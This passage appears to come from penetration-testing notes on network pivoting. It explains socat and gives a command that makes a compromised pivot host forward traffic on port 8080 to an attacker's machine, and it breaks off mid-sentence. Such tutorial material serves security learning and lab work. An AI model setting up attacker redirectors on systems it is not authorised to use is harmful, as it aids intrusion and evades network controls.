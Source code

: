
Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts a redirector that can listen on one host and port and forward that data to another IP address and port



#### Setting up a redirector using socat

We can use socat to setup a redirector on the pivot box, that will redirect all traffic coming to a particular port to the attacker's machine

```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.155:80
```


This command will make the pivot box listen on port 8080 for incoming traffic and r